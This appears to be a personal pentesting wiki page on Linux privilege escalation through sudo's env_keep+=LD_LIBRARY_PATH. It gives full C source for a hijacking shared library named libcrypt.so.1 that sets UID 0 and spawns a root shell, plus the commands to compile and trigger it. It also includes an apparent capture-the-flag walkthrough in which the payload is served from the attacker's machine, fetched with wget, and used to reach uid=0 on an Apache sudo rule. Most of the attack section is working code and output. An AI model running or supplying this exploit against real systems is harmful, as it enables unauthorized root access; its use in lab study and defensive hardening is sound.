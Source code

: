 Note: this exploit is extremely similar to the [[env_keep+=LD_PRELOAD exploitation]] exploit.
`LD_LIBRARY_PATH` is an environment variable, which is similar to the `PATH` variable. 
It's used specify the path load the shared objects (`.so` files) called upon by a program.
Sometimes it can be specified in the `/etc/sudoers` file, which can be listed using `sudo -l`.

#### Checking for vulnerability
###### Note: If the `sudo -l` output is available, LinPEAS will flag the `LD_LIBRARY_PATH` if vulnerable. Usually, you need to enter the `sudo -l` with a password to see. If this isn't done, LinPEAS won't flag it.
First, run `sudo -l`, and check the output. If it contains `LD_LIBRARY_PATH`, it should be vulnerable.
#### Exploitation
Nearly every binary will call for shared objects, and when using the `LD_LIBRARY_PATH` environment variable, it will look in the specified path first.
This means it becomes vulnerable to a hijacking attack, where a false copy with the same name as a legitimate library is used, but has malicious code inside.
The exploitation steps are very similar to `PATH` exploitation.
First, to get the names of the libraries called upon by a binary:
```
ldd FULL_PATH_TO_TARGET_BINARY            // Note: This includes the name of the binary itself (ex: /usr/bin/bash, not /usr/bin)
```
From here, pick any shared object to hijack.
The `libcrypt.so.1` is very common, so we will use it here.

Code (filename: `exploit.c`):
```
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setuid(0);   // If the user specified to run is different from Sudo, use the UID of that user.
	setgid(0);   // If the group specified to run is different from Sudo, use the GID of that user.
	system("/bin/bash -p");
}
```
Compiling:
```
gcc -o libcrypt.so.1 -shared -fPIC exploit.c
```

This can all be done locally, as long as the architecture and operating system of the target machine and the local machine are the same.

Finally, run the exploit:
```
sudo LD_LIBRARY_PATH=PATH_TO_LIBRARY COMMAND
```
Note: make sure to specify the path to the `libcrypt.so.1` .

### Example
First, to check for vulnerability:
```
rick@Hijack:/tmp/test$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
In the third line, the `env_keep+=LD_LIBRARY_PATH` exists, so it's vulnerable.
To check the libraries called upon by the exploitable binary:
```
rick@Hijack:/tmp/test$ ldd /usr/sbin/apache2                                                                           
        linux-vdso.so.1 =>  (0x00007ffdedf6e000)  
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fb5acc54000)                                        
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007fb5aca2d000)                                                                                                                                                 
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007fb5ac7fb000)                              
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb5ac5de000)                              
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb5ac214000)                                           
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fb5abfdc000)                                 
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007fb5abdb3000)                                 
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007fb5abbae000)                                   
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fb5ab9aa000)                                       
        /lib64/ld-linux-x86-64.so.2 (0x00007fb5ad169000)
```
It uses `libcrypt.so.1`, so that will be the name of the binary.
Then, to compile the code from [[#Exploitation]]:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #nvim exploit.c
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
	└──╼ #gcc -o libcrypt.so.1 -shared -fPIC exploit.c
exploit.c: In function ‘_init’:
exploit.c:6:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |   setuid(0); // If the user specified to run is different from Sudo, use the UID
      |   ^~~~~~
exploit.c:8:3: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |   setgid(0); // If the group specified to run is different from Sudo, use the
      |   ^~~~~~
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #ls libcrypt.so.1
libcrypt.so.1
```
Getting the binary from the local machine to the target:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

rick@Hijack:/tmp/test$ wget http://10.8.1.167:8000/libcrypt.so.1
--2023-10-27 11:07:26--  http://10.8.1.167:8000/libcrypt.so.1
Connecting to 10.8.1.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18160 (18K) [application/octet-stream]
Saving to: ‘libcrypt.so.1’
libcrypt.so.1                                                  100%[=========================================================================================================================================>]  17.73K  --.-KB/s    in 0.03s   
2023-10-27 11:07:26 (687 KB/s) - ‘libcrypt.so.1’ saved [18160/18160]
```
Finally, to exploit:
```
rick@Hijack:/tmp/test$ sudo LD_LIBRARY_PATH=/tmp/test /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2                                                                                                                          
/usr/sbin/apache2: /tmp/test/libcrypt.so.1: no version information available (required by /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0)                                                                                                        
root@Hijack:/tmp/test# id           
uid=0(root) gid=0(root) groups=0(root)
```
